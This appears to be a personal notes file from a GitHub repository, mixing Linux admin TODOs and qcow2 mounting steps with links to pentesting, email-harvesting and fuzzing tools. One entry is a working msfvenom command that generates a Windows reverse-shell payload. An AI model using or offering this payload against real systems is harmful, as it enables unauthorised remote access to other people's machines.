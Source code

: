 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

TODO - track cura bug issue
TODO - execute script on shutdown 
    so far:
        service in /usr/lib/systemd/system-shutdown/clean_gnome_home.shutdown
        script in /bin/clean_home
TODO - Kioku: Rename 'Shell' skill to Bash and create a new Shell skill with cmnd line utilities
TODO - I want a shell TRAP @ work that broadcasts a defined variable to all open terminals


## BSS section
containing statically-allocated variables

## Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

## CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

## FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt

### Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt


